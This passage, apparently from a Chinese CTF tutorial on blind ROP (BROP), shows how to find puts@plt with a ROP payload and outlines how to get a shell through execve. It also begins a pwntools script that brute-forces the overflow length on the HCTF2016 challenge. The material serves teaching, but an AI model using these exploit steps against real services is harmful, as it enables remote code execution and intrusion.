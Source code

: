 - 使用rop chain，同时使得每个rop对应的文件描述符不一样
- 同时打开多个连接，并且我们使用相对较高的数值来试一试。

需要注意的是

- linux默认情况下，一个进程最多只能打开1024个文件描述符。
- posix标准每次申请的文件描述符数值总是当前最小可用数值。

当然，我们也可以选择寻找puts函数。

###### 寻找puts@plt

寻找puts函数(这里我们寻找的是 plt)，我们自然需要控制rdi参数，在上面，我们已经找到了brop gadget。那么，我们根据brop gadget偏移9可以得到相应的gadgets（由ret2libc_csu_init中后续可得）。同时在程序还没有开启PIE保护的情况下，0x400000处为ELF文件的头部，其内容为\x7fELF。所以我们可以根据这个来进行判断。一般来说，其payload如下

```
payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

#### 攻击总结

此时，攻击者已经可以控制输出函数了，那么攻击者就可以输出.text段更多的内容以便于来找到更多合适gadgets。同时，攻击者还可以找到一些其它函数，如dup2或者execve函数。一般来说，攻击者此时会去做下事情

- 将socket输出重定向到输入输出
- 寻找“/bin/sh”的地址。一般来说，最好是找到一块可写的内存，利用write函数将这个字符串写到相应的地址。
- 执行execve获取shell，获取execve不一定在plt表中，此时攻击者就需要想办法执行系统调用了。

### 例子

这里我们以HCTF2016的出题人失踪了为例，相关的部署文件都放在了example文件夹下的对应目录下。基本思路如下

#### 确定栈溢出长度

```python
def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('WelCome my friend,Do you know password?\n')
            sh.send(i * 'a')
            output = sh.recv()
            sh.close()
            if not output.startswith('No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

根据上面，我们可以确定，栈溢出的长度为72。同时，根据回显信息可以发现程序并没有开启canary保护，否则，就会有相应的报错内容。所以我们不需要执行stack reading。

#### 寻找 stop gadgets
